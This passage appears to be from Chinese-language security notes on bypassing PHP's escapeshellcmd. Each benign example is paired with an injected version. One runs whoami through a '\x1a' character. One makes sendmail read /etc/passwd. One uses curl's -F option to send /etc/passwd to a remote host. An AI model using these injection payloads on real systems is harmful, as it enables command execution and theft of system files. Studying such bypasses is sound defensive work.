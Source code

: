> 
打印somedir中的文件列表


```
$dir = "somedir";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');

```

> 
并且执行whoami命令


```
$dir = "somedir x1a whoami";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');

```

#### SENDMAIL

> 
发送mail.txt到from@sth.com


```
$from = 'from@sth.com';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' &lt; mail.txt');

```

> 
打印/etc/passwd内容


```
$from = 'from@sth.com -C/etc/passwd -X/tmp/output.txt';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' &lt; mail.txt');

```

#### CURL

> 
下载http://example.com内容


```
$url = 'http://example.com';
system(escapeshellcmd('curl '.$url));

```

> 
发送/etc/passwd内容到http://example.com


```
$url = '-F password=@/etc/passwd http://example.com';
system(escapeshellcmd('curl '.$url));

```
